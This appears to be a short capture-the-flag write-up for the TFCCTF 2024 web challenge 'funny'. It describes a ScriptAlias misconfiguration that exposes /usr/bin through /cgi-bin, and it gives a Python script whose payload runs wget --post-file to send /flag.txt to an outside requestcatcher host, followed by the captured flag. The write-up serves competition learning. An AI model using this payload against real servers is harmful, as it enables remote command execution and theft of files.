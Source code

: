 ```yaml
---
layout: post
title:  "funny - TFCCTF 2024"
date:   2024-08-03 00:00:00 -0400
---
```


https://ctftime.org/event/2423

# funny (web)

cgi-bin stuff

## Solution

```conf
ScriptAlias /cgi-bin /usr/bin
```
Allows us to execute any binary on the dir with http path.
It took some trial and error to get it working, i wonder if you can solve it with awk

```python
#!/usr/bin/env python3
import requests
from urllib.parse import quote, quote_plus

REMOTE = "http://challs.tfcctf.com:31311/"

payload = f"wget?--post-file+/flag.txt+https://lalalalalallalala.requestcatcher.com/"
res = requests.get(REMOTE + f"cgi-bin/{payload}", proxies={
    'http': 'http://0.0.0.0:8080',
    'https': 'https://0.0.0.0:8080'
})
print(res.text)
```

## Flag
`TFCCTF{1_4lm0st_f0rg0t_t0_push_th1s_fl4g_t0_th3_c0nt4in3r}`

shafouz 2024/08/03
